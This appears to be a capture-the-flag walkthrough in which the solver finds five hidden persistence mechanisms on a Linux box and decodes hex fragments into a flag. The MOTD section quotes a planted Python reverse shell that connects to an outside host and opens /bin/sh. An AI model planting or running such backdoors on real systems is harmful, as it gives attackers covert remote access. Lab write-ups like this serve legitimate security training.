





- so there are five flags combining them will give flag

***
> *Time is on my side, always running like clockwork.*

- sounds like cronjob
- crontab -l as root
```
crontab -l -u root
```



```
find / -name "a.sh" -type f 2>/dev/null
```
- found nothing
- maybe initial few number are hex
```
echo "54484d7b7930" | xxd -r -p
```
- `THM{y0`


***
> *A secret handshake gets me in every time.*
- this looks like ssh
- find .ssh folder 
```
find / -name ".ssh" -type d 2>/dev/null
```
- output
```
/root/.ssh
/home/zeroday/.ssh
/home/ubuntu/.ssh
```
- check all
- `/home/zeroday/.ssh/.authorized_keys`
```
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGigCKLtSqMcOfttFdDnNXfwKd5nH8Ws3hFNRmBDWxfvuaaC6h9zWishJVfr0xsyV0SSkMGPCuPLRU41ckvnGbA= 326e6420706172743a20755f6730745f.local
```
- `326e6420706172743a20755f6730745f`
- this looks hex
```
echo "326e6420706172743a20755f6730745f" | xxd -r -p
```
- `2nd part: u_g0t_`
***
> *Whenever you set the stage, I make my entrance.*

- this was bit hard to spot
- it is about bashrc which loads our shell config.
- since we are specter according to q check that users bashrc


```
echo "4d334a6b58334130636e513649444e324d334a3564416f3d" | xxd -r -p | base64 -d
```
- `3rd_p4rt: 3v3ryt`
***
>  *i run with the big dogs, booting up alongside the system.*

- maybe process
```
ps aux
pstree
```
- nothing interesting
- maybe service
- To see all services, including inactive ones
```
sudo su
systemctl list-unit-files --type=service
```


```
systemctl cat cipher.service
cat /lib/systemd/system/cipher.service
```



- `4th part - h1ng_`

***
> *I love welcome messages.*
- message of the day (MOTD)
- potential locations
```
/etc/motd
/etc/profile.d/motd.sh
/etc/update-motd.d/
```
- in `cat /etc/update-motd.d/00-header`
```
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("4c61737420706172743a206430776e7d0.h1dd3nd00r.n3t",)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);' 2>/dev/null

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

```
- looks hex
```
echo "4c61737420706172743a206430776e7d0" | xxd -r -p
```
- `Last part: d0wn}`

- final flag
>  THM{y0u_g0t_3v3ryt_h1ng_D0wn}

********************************************************************************************************